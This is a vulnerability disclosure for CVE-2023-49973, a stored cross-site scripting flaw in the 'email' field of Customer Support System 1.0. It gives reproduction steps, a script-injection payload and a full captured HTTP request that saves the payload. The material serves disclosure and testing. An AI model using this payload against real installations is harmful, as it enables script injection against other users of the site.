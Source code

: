 # CVE-2023-49973
# Customer Support System 1.0 - Cross-Site Scripting (XSS) Vulnerability in "email" field/parameter on "customer_list" Page

**Description**: Customer Support System 1.0 is vulnerable to stored XSS. A XSS vulnerability exists in version 1 of the Customer Support System. A malicious actor can insert JavaScript code through the "email" field/parameter when editing/creating a customer. The code is executed whenever the page "/customer_support/index.php?page=customer_list" is visited.  

**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49973  
**Tested on**: Windows  
### Steps to reproduce:  
1. Log in to the application.  
2. Navigate to "/customer_support/index.php?page=customer_list" to edit an existing customer or "/customer_support/index.php?page=new_customer" to create a new customer.
3. Create or edit a customer and insert the malicious payload into the "email" field/parameter.  
4. Payload:
```
</dt></b><script>alert(document.domain)</script>
```
### Request:
```
POST /customer_support/ajax.php?action=save_customer HTTP/1.1
Host: 192.168.68.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------212391604122778812451614149575
Content-Length: 1149
Origin: http://192.168.68.148
Connection: close
Referer: http://192.168.68.148/customer_support/index.php?page=new_customer
Cookie: csrftoken=1hWW6JE5vLFhJv2y8LwgL3WNPbPJ3J2WAX9F2U0Fd5H5t6DSztkJWD4nWFrbF8ko; sessionid=xrn1sshbol1vipddxsijmgkdp2q4qdgq; PHPSESSID=abige9ar0b1bi3qcf9mkv258o3

-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="id"


-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="firstname"

teste
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="middlename"


-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="lastname"

xss
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="contact"

210
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="address"

asdasd
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="email"

</dt></b><script>alert(document.domain)</script>
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="password"

xss
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="cpass"

xss
-----------------------------212391604122778812451614149575--
```

Discoverer(s)/Credits:  
Geraldo Alcântara
